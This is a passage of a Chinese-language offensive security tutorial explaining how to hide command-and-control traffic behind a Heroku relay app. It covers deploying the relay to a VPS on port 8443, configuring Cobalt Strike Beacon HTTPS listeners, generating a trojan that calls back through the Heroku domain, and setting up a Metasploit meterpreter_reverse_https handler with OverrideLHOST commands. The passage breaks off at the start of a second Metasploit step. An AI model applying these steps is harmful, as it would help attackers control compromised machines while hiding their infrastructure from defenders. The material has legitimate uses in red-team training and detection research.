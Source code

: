 这里主要需要的是箭头所指的两处，其中App name为子域名前缀的名称，这里我们可以自定义，只要没有被注册过不重复即可。

而TARGET处，填写为我们真实的VPS服务器的域名，也就是需要代理的主机域名。这里格式为:[https://baidu.com:8443，代理VPS的8443端口。](https://baidu.com:8443，代理VPS的8443端口。/)

填写完毕后点击Deploy app自动部署。

![img](https://p4.ssl.qhimg.com/t01368c30adfdf78718.png)

**如上图所示即配置成功。**

**第三步**

在Cobaltstrike中配置两个监听器，设置PAYLOAD为Beacon HTTPS，HTTPS Hosts为sict.icu也就是我们真实的域名，HTTPS Port为8443端口。

**监听器1如下图所示:**

![img](https://p3.ssl.qhimg.com/t01f4f64a4dccc36103.png)

继续配置第二个监听器，同样设置PAYLOAD为Beacon HTTPS，HTTPS Hosts设置为nancicdn.herokuapp.com，也就是之前获取到的heroku的域名。
其中部署时配置的App name为子域名前缀，所以最终得到的heroku的域名就是nancicdn.herokuapp.com。HTTPS Port设置为443。

  **监听器2如下图所示：**

![img](https://p0.ssl.qhimg.com/t01c642bf6d3b1c20f8.png)

监听器全部部署完毕后生成木马文件，注意生成木马的监听器设置为监听器2，也就是指向heroku域名的那一个监听器。

![img](https://p0.ssl.qhimg.com/t01efd5924bb810e51e.png)

**成功上线Cobaltstrike**

### Heroku在Metasploit中的应用

heroku服务的配置这里就不再赘述，直接从Metasploit的配置开始讲解。

**第一步**

打开msf
在metasploit中添加handler,配置如图：

![img](https://p5.ssl.qhimg.com/t018cb0e768bd66bd21.png)

使用模块payload/windows/x64/meterpreter_reverse_https
设置LHOST为我们实际指向的域名，LPORT为8443，是在heroku中配置的。
然后设置三个全局参数，如下：
setg OverrideLHOST nancicdn.herokuapp.com
setg OverrideLPORT 443
setg OverrideRequestHost true

OverrideLHOST为我们heroku的地址，后面主域名为固定的，子域名前缀为刚才heroku中配置的App name。端口为443因为我们配置的是https协议。
参数配置完毕后，输入to_handler开启监听。

![img](https://p0.ssl.qhimg.com/t0145ce2a457c0deeb4.png)

如上图可以看到已经开启8443端口的监听，即配置完毕。

**第二步**
